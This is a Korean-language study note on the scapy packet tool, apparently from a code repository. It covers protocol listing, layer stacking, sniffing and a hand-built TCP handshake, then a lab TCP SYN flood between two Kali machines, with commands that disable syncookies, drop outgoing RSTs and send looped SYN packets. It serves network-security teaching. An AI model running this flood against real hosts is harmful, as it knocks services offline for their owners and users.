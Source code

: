 # scapy

파이썬으로 작성된 패킷 조작 도구

패킷 디코딩, 전송, 캡처, 수정 등 다양한 기능을 제공

스카피는 계층 레이어를 쌓을 수 있다

<https://www.itlkorea.kr/data/scapy-pocket-guide0.2.pdf>

### scapy 실행

```bash
scapy
```

### 지원하는 프로토콜을 확인

```
ls()
```

![scapyls](../imgs/scapyls.png)

```
# TCP 헤더 정보를 출력
ls(TCP)

# 현재 설정되어 있는 TCP헤더 정보를 출력
TCP().display()

# 사용가능한 기능을 확인
lsc()

# 현재 설정되어 있는 IP헤더 정보를 출력
IP().display()
# or
ip = IP()    #  변수로 지정
ip.display()

# ip destination 값을 192.168.44.144로 변경
ip.dst="192.168.44.144"
ip.display()

# scapy는 전송 계층을 쌓을 수 있다. 캡슐래이션 하는 방법을 알아보자
ip = IP()
tcp = TCP()
packet = ip/tcp
packet.display()

# sniffing하기
sniff()

# sniffing 결과를 sf 변수에 저장
sf = sniff()    # 실행하고 웹브라우저에서 사이트에 접속해보자
sf.display()

# 10개의 정보만 스니핑
sf = sniff(count=10)
sf.display()

# 스니핑 한 결과의 0번째를 자세하게 보여준다
sf[0].show()
```

## scapy를 이용한 3way handshaking

```bash
ip = IP()
ip.display()

ip.dst = "192.168.44.144"
ip.display()

tcp = TCP()
tcp.display()
# 플래그가 s로 되어있다

# sport 를 변경해준다
# RandNum 파이썬에서 랜덤넘버 생성 함수
tcp.sport = RandNum(1024, 65535)
tcp.display()

# 패킷을 만들어 쌓는다
syn = ip/tcp

#
syn_ack = sr1(syn)
syn_ack.display()

#
ack = ip/TCP(sport=syn_ack[TCP].dport, dport=80, flags="A", seq=syn_ack[TCP].ack, ack=syn_ack[TCP].seq+1)
send(ack)

```

wireshark로 확인
3way 핸드 쉐이크를 하려면 빠르게 입력해야 한다
셸스크립트를 작성해서 빠르게 입력되도록 한다

싱크플러딩
싱크 아크/싱크 아크를 보내야하는데
아크를 안보내면 싱크가 계속 기다린다

## TCP SYN Flooding

kali1 (피해자) 클라이언트에서 원활한 실습을 위해 설정을 변경한다

```bash
root@kali:~# sysctl -a | grep syncookies
net.ipv4.tcp_syncookies = 1    # syncookies를 사용 = backlog que에 SYN 패킷을 저장하지 않음
sysctl: reading key "net.ipv6.conf.all.stable_secret"
sysctl: reading key "net.ipv6.conf.default.stable_secret"
sysctl: reading key "net.ipv6.conf.eth0.stable_secret"
sysctl: reading key "net.ipv6.conf.lo.stable_secret"

root@kali:~# sysctl -w net.ipv4.tcp_syncookies=0
net.ipv4.tcp_syncookies = 0
root@kali:~# sysctl -a | grep syncookies
sysctl: reading key "net.ipv6.conf.all.stable_secret"
net.ipv4.tcp_syncookies = 0
sysctl: reading key "net.ipv6.conf.default.stable_secret"
sysctl: reading key "net.ipv6.conf.eth0.stable_secret"
sysctl: reading key "net.ipv6.conf.lo.stable_secret"


```

@Kali#2 에서 RST 패킷이 외부로 나가지 못 하도록 방화벽에 등록

## TCP SYN Flooding

```bash
# scapy에서 나온다
exit()

# kali2 공격자 pc에서 rst가 나가는 것을 막는다. kali2에서 아래 명령어를 작업
iptables -A OUTPUT -p tcp --tcp-flags RST RST -j DROP

# scapy로 들어간다
scapy

ip = IP()
ip.dst="192.168.44.144"
tcp = TCP()
tcp.dport = 80
tcp.sport = RandNum(1024,65535)
tcp.flags = "S"
syn = ip/tcp
send(syn, loop=True)

싱크플러딩 공격
공격자가 피공격자에게 아크를 보내야 하는데 싱크만 계속 보낸다

```

kali1 피해자 클라이언트에서 확인

```bash
# kali1에서 와이어샤크를 띄운다(패킷확인)
wireshark  # ip.addr == 공격자주소 입력

# 터미널에서 실행
netstat -an | grep -i syn_recv

싱크 리시브 상태만 가지고 있다
ddos 공격
```
